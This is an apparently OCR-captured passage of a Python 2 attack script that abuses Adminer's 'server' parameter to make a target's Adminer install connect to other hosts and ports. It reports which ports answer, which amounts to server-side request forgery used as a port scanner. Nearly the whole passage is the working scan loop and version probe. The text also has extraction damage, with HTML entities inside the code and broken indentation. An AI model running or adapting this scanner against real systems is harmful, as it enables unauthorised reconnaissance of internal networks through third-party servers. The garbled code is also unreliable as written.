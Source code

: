 
while True:
    RES=s.recv(512)
    if RES.find('Forbidden')!=-1:
        print 'Forbidden 403'
        s.close()
        return None
    if RES.find('401 Authorization Required')!=-1:
        print '401 Authorization Required'
        s.close()
        return None
    ver = re.findall(r'&lt;span&gt;(.*)&lt;/span&gt;',RES,re.DOTALL|re.MULTILINE)
    if not RES:
        s.close()
        return None
    if ver:
        print 'Your Adminer '+ ver[0] + ' works for us now.'
        s.close()
        return ver

s.close()
return None 
```

def scan(ADMINER,ADMINER_PORT,ADMINER_URI,TARGET,PORTS_TO_SCAN,PRINT_CLOSED,USE_SSL):

global MAX_TIME,port_range

RES=’’

```
print 'scanning ports: %s ' % str(port_range[0])+'to ' + str(port_range[-1])+' ...'

for aPort in port_range: 
     aPort=str(aPort)

     try:
         s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
         s.settimeout(MAX_TIME)
         s.connect((ADMINER,ADMINER_PORT))

         if USE_SSL:
            s=ssl.wrap_socket(s, keyfile=None, certfile=None, server_side=False, cert_reqs=ssl.CERT_NONE, ssl_version=ssl.PROTOCOL_SSLv23) 

         s.send('GET /'+ADMINER_URI+'/?server='+TARGET+':'+aPort+'&amp;username= HTTP/1.1\r\nHost: '+TARGET+'\r\n\r\n')

     except Exception as e:
          print str(e)
          s.close()
          return

     while True:
          try:
             RES=s.recv(512)
             ###print RES
             ###Should see HTTP/1.1 403 not 200
             if RES.find('HTTP/1.1 200 OK')!=-1:
                 print 'port '+aPort +  ' open'
                 port_lst.append(aPort+' open')
                 s.close()
                 break
